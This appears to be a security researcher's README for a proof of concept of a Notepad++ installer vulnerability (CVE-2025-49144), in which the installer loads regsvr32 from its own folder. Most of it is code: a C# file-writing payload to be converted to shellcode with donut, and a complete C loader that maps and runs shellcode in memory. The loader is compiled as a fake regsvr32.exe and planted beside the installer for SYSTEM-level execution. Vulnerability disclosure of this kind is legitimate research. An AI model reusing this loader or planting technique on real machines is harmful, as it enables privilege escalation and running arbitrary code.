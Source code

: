 A few weeks ago I wrote a PoC and forgot to put it here too :)
https://0xczr.gitbook.io/0xczr/pocs/notepad++-cve-2025-49144

The vulnerability stems from how the installer checks for the regsvr32. During Dynamic Analysis I've found that it first tries to find it in the working directory of the installer, meaning that the PATH is not quoted, thus not absolute.

<img width="906" height="173" alt="image" src="https://github.com/user-attachments/assets/016f98c4-9aee-4c57-a0cd-9e5c9495d773" />

Writing the PoC
I decided to simply write a .cs file:
```
using System.IO;
public class PoC {
    public static void Main() {
        File.WriteAllText(@"C:\Windows\Temp\NOTEPAD_VULNERABIL.txt", "Acest fisier demonstreaza executia de cod cu privilegii de SYSTEM.");
    }
}
```
Then convert it into shellcode with donut, storing it in a header file.
Wrote a small C code to load that shellcode in memory:
```
#include <windows.h>
#include "payload.h"
​
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    
    unsigned int payload_len = sizeof(payload);
​
    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
​
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (exec_mem == NULL) {
        return 1;
    }
​
    RtlMoveMemory(exec_mem, payload, payload_len);
​
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
​
    if ( rv != 0 ) {
            th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
            WaitForSingleObject(th, -1);
    }
​
    return 0;
}
```
Compiled it as regsvr32.exe and stored it in the same folder with the installer.
